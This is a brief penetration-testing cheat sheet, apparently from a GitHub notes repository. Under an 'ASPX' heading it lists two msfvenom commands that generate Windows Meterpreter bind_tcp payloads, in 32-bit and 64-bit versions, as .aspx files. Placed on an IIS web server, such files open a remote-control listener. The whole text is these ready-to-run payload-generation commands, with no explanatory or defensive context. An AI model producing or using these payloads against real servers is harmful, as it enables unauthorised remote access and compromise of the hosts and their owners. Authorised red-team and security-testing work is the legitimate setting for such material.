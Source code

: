 # ASPX

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x86.aspx`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x64.aspx`
